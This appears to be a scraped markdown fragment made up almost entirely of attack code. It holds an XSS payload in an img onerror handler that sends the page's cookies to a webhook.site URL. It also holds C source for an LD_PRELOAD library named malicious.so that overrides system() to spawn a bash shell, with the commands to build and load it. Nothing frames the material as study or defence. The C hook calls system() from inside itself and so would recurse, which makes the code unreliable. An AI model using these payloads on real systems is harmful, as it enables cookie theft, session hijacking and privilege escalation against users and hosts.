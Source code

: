 <img src="x" onerror="if (!window.spammed) { window.spammed = true; this.src='https://webhook.site/b289fee0-0412-4cbb-9a24-5658f3066af3/?' + document.cookie; }">
```
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <stdlib.h>

int system(const char *command) {
    if (!command) return 0;
    
    // You can add your custom code here to run a root shell
    system("/bin/bash");

    // Call the original system() function
    typedef int (*orig_system)(const char *);
    orig_system original_system = dlsym(RTLD_NEXT, "system");
    return original_system(command);
}
```
gcc -shared -fPIC -o malicious.so malicious.c -ldl

export LD_PRELOAD=~/path_to_malicious.so
